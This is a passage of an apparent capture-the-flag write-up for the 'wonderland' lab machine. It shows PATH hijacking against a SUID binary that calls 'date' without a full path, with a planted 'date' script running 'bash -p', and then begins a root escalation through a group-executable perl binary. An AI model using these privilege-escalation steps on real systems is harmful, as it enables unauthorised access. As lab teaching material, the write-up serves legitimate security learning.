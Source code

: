 
In the main function of the teaParty binary we see that the following command is used:  
`/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R`
  
-> We see that the program uses /bin/eco with a full path and date without a full path.
  
Our way will be create a reverse named "date" and manipulate the **$PATH**.
  

## <ins>Rabbit escalation:</ins>
  
Setup date:
  
```sh
/home/rabbit$ mkdir esc
rabbit@wonderland:/home/rabbit$ cd esc
/home/rabbit/esc$ echo -en '#!/bin/bash\nbash -p' > date
rabbit@wonderland:/home/rabbit/esc$ cat date 
#!/bin/bash
bash -p
rabbit@wonderland:/home/rabbit/esc$ chmod +x date
```
  
Setup $PATH:  

`echo $PATH` (alway backup the path!)  
`export PATH=/home/rabbit/esc/:$PATH` (new PATH)

Escalate by run **./teaParty** in /home/rabbit.
  

  
---
  

## <ins>hatter enumeration:</ins>
  
Check out the home directory of hatter and find his password to ssh.

Get in via ssh because in our actual session we are in the group of rabbit.  
  
```ssh
hatter@wonderland:/usr/bin$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
  

---
  
  
# <ins>Privilege escalation to root</ins>  
  

  
We check our enumeration out of alice and and find the the vuln on perl.

  
```sh
/home/rabbit$ ls -la /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
```
